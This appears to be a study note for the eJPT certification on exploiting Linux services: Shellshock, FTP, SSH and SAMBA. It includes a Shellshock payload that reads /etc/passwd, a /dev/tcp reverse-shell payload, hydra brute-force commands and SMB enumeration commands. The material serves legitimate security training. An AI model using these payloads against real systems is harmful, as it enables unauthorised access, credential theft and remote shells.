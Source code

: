# 20 Exploiting Linux Vulnerabilities

# Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

Vulnerability in the **Bash shell** (since V1.3) is caused whereby Bash mistakenly executes trailing commands after a series of characters `() { :; };)` .

Bash is a Unix based OS shell that is part of the GNU project and is the default shell for the most Linux distro.

Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable. 

CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system after which the output is displayed to the client.

Exploitation
- Locate an input vector or script that allows you to communicate with Bash
- In Apache web server, we can utilize any legitimate CGI scripts accessible on the web server
- Whenever a CGI scrip is executed, the web server will initiate a new process and run the CGI script with Bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

```bash
nmap -sV <ip> —script=http-shellshock —script-args “http-shellshock.uri=/gettime.cgi”
burp suite: proxy: intercept on
burp suite: repeater: User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
burp suite: repeater: send

Gain reverse shell:
nc -nvlp 1234 (listener)
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<MY-IP>/1234 0>&1'

msf6: search shellshock
msf6: exploit(multi/http/apache_mod_cgi_bash_env_exec)
```

# Exploiting FTP

TCP 21

```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.157.195.3 -t 4 ftp

ftp <target> (connect)

ls -la /usr/share/nmap/scripts | grep ftp-* (list nmap ftp scripts)

seachsploit ProFTPD
```

# Exploiting SSH

TCP 22

2 Authentication 
- username:password
- key based

```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t 4 <TARGET> ssh
```

```shell
ssh username@target (connect)
```

# Exploiting SAMBA

TCP 445, on top of NetBIOS 139

**Authentication**
username:password

**Obtain legitimate credentials**
Brute-force

```shell
hydra -l <username> -P </path-to-library> <target> smb
```

**Enumerate SAMBA**
SMBmap: enumerate share drive, list the contents of the share, download files and execute remote commands.

```shell
smbmap -H <target> -u <username> -p <password>
```

**Other tool**
smbclient: download/upload files, retrive directory information 
enum4linux: enumerate

```shell
smbclient -L <target> -U <username> (list shares)
smbclient //<target>/<share> -U <username> (log in the share)
```

```shell
enum4linux -a <target>
enum4linux -a -u <username> -p <password> <target>
```

#eJPT #cybersecurity 